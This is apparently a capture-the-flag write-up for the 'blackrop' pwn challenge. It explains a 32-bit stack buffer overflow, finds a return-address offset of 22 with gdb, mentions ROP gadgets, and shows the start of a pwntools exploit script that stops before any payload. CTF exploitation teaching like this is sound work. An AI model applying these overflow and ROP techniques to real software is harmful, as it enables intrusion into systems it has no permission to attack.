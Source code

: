 Since we know there's a buffer overflow that means we can overwrite the return address `EIP` and set it anywhere we like

And in x86 which is the binary architecture arguments are passed from the stack as fun, ret, arg1, arg2... Since the ret address in the next step will confuse the parameter passing, so ret is generally pressed

Now let us get the offset needed to overwrite the instruction pointer and I'll use gdb-gef for it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a96785a9-12bc-473d-9bb6-6e86b20171cd)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/20326d72-1d49-4f85-a8af-c14b3cc0155c)

The offset is 22

I'll also need some pop gadgets
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6716aad0-55b2-4d8b-a524-23a66877f794)

Here's my exploit [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/battlectf23/prequal/pwn/blackrop/solve.py)

```python
from pwn import *
import warnings

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x80492ce
break *0x8049293
break *0x80492e8
break *0x804930b
break *0x80491c2
continue
'''.format(**locals())

# Binary filename
exe = './rop_black'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# ========================= #
# capcha = 0x804c044
# african = 0x804c03c
# invite_code = 0x804c040
# check_file = 0x804c038
```